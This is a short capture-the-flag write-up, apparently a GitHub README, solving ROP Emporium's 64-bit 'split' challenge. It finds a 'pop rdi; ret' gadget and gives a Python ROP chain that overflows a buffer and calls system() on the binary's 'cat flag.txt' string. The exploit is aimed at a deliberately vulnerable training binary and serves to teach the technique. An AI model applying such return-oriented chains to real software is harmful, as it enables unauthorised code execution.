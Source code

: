 # split-64 bit
this is the second challange of the series.    
this time we officially begin our ROP journey. 
![start](https://user-images.githubusercontent.com/60041914/78274381-cc91e600-7518-11ea-91bb-94e1be264290.png)  
our goal according to the instructions at https://ropemporium.com/ is to call system() with "cat flag.txt"     
which is already inside the binary(we have it easy this time)   
![str](https://user-images.githubusercontent.com/60041914/78274656-3611f480-7519-11ea-88bd-102c8c03b29d.png)

here is the original call to system.    
![fuc](https://user-images.githubusercontent.com/60041914/78274508-02cf6580-7519-11ea-8769-e64895616cc4.png)

we see that edi is used as a pointer to the command.   
so our goal is clear. we need to craft a rop chain that puts the address of "cat flag.txt"    
in edi and calls system.          
we find a useful gadget:
```nasm
0x0000000000400883 : pop rdi ; ret
```
and craft a rop chain with it:    
```python

CAT_FLAG=0x00601060 #pointer to bash command to print flag
SYSTEM_ADDR=0x00400810  #place where system is called

exploit=b'A'*40
exploit+=p64(0x00400883)    #pop rdi 
exploit+=p64(CAT_FLAG)  #value of rdi after pop
exploit+=p64(SYSTEM_ADDR)   #call to system
```
pwned.   
![pwned](https://user-images.githubusercontent.com/60041914/78275394-3c54a080-751a-11ea-9614-aa5348b49266.png)
